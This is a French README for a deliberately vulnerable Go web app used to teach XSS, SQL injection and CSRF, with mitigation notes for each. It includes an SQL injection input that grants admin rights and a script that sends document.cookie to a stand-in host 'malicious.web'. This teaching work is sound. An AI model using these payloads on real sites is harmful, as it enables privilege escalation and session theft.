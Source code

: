 # pwn
C'est un petit projet fait en Go bien sympa mais pleins de failles :)

# Quickstart

### Dependencies
```bash

docker
// or go >=1.16
```

### Startup
```bash
# Docker
docker-compose up 
// docker compose up

// OR
# Go
go mod download
go build -o ./main.go
./main.go
```

### Users
```
# Admin
username  jane
username  password

# User
Petra:
username  petra
password  password
```

# Cross-Site Scripting (XSS)
Le XSS  est un type de faille de sécurité de sites internet. Le but est simplement de pouvoir attaquer une système à l'aide de scripts (JavaScript par exemple).

Dans notre cas, Go est plutôt bien armé pour éviter l'injection de scripts.

```go
// Safe
userId := url.Query().Get("uid")
```

Cette méthode permet de récupérer la valeur d'un paramètre d'une requête de façon sécurisé. Les `;` ou autres caractères sont échappés automatiquement.

La méthode `url.QueryUnescape()` permet de récupérer tous les paramètres de l'URL sans échappement.

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/routes.go#L85-L93))

Dans l'application, un script peut être exécuté grace à ce code.
L'exécution de scripts comme `http://foo.bar/baz?id=<script>fetch(...)</script>` est alors possible.

## Mitigations

Comme précisé ci-dessus, une attaque XSS est motigé a l'aide de plusieurs méthodes du package `url`.
```go
foo := url.FormData("foo")
bar := url.Query().Get("foo")
// ...
```
Ces méthodes échappent la majorité des caractères et de plus les strings sont encodés au format URL. L'exécution de script est impossible dans ce cas-là.

Il faudrait préférer l'envoi de formulaire avec une méthode `POST` et récupérer les champs avec le body envoyé par la requête.
De plus, il faudrait assainir les paramètres URL et les inputs pour en éviter l'injection de scripts malicieux et de les exécuter.

# SQL Injection (SQLI)

L'injection SQL un type d’attaque discrète dans laquelle le pirate insère son propre code dans un site web afin de contourner ses mesures de sécurité et d’accéder à des données protégées.

Elle peut se faire de plusieurs manières :
- De la même manière de pour XSS, les `query params`
- En modifiant `value` des inputs en HTML
- En modifiant le `body` d'une requête
  

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/repository.go#L111-L112))

Il est possible de réaliser une injection SQL à partir des divers `<input />` utilisés pour interagir avec les différentes routes.      

Dans notre application, le package standard `sql` de Go avec le driver `sqlite` ne permet
pas d'exécuter deux requêtes en simultanés. Cela ne change pas le fait l'injection SQL est possible et que les envois de requêtes SQL malicieuses sont envoyés à la base de données.  

Par exemple:
```html
<input value="2';UPDATE users SET is_admin = true WHERE id = '...';" hidden>
```

## Migitations

Il faut assainir les inputs comme pour éviter le XSS.
Cependant, cela ne suffit pas totalement. Il faut aussi éviter l'exécution de scripts malicieux.
Il est possible en SQL de preparer les requetes et de les verifier avant de les exécuter.
Cela permet de conserver l'intégrité des données si une requete malicieuse s'infiltre.


# Cross-Site Request Forgery (CSRF)
C'est un type d'attaque qui se produit quand un site Web, un blog, un e-mail, un message instantané ou une application Web malveillant(e) oblige le navigateur Web d'un utilisateur à effectuer des opérations indésirables, sur un site de confiance où l'utilisateur est actuellement authentifié.

Notre application est protégée avec :
- un token `x-csrf` stocké dans un cookie.
- l'identifiant de l'utilisateur stocké dans un cookie.


Un token csrf est :
- Générer à chaque requête
- Stocké en mémoire et envoyé en cookie à chaque requête
- Vérifié à chaque requête


## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/middleware.go#L19-L24))

Même si notre système de token csrf fonctionnne, il reste assez rudimentaire.

Notre cookie est accessible avec du JavaScrit (XSS)
```javascript
// http://foo.bar/baz?=<script>script</script>
console.log(
    fetch("http://malicious.web", {
        method: "POST,
        body: JSON.stringify({cookies: document.cookie}),
        headers : {"Content-Type": "application/json" },
    });
);
```

Par exemple, en utilisant du XSS, un lien malicieux pourrait être envoyé à un administrateur et permettrait de récupérer son cookie x-csrf et de faire une requête en son nom (avec son uid en cookie) 

## Mitigations
Un système de cookie est possible dans une application destinée à la production. Cependant il faut faire attention aux informations stockées car les cookies sont envoyés à chaque requête. Afin de sécuriser le cookie, les paramètres doivent être ajouté:
- `httpOnly` pour ne pas pouvoir interagir avec le cookie sur le frontend
- `MaxAge` pour expirer le cookie

```go
c := &http.Cookie{
		Name:     "x-csrf",
		Value:    randomString,
		Path:     "/",
		HttpOnly: true,
        MaxAge:   3000
	}
```